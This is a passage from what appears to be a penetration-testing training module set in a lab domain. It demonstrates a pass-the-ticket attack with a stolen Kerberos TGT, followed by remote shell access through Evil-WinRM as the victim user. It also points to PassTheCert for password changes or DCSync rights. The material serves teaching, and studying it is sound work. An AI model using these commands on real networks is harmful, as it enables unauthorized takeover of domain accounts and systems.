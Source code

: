 
With the TGT obtained, we may once again `pass the ticket`:

```shell-session
al1abb@htb[/htb]$ export KRB5CCNAME=/tmp/jpinkman.ccache
al1abb@htb[/htb]$ klist

Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

In this case, we discovered that the victim user is a member of the `Remote Management Users` group, which permits them to connect to the machine via `WinRM`. As demonstrated in the previous section, we can use `Evil-WinRM` to connect using Kerberos (note: ensure that `krb5.conf` is properly configured):

```shell-session
$ evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jpinkman\Documents> whoami
inlanefreight\jpinkman
```

## No PKINIT?

In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims (e.g., a domain controller machine account) due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing passwords or granting DCSync rights). This attack is outside the scope of this module but is worth reading about [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).
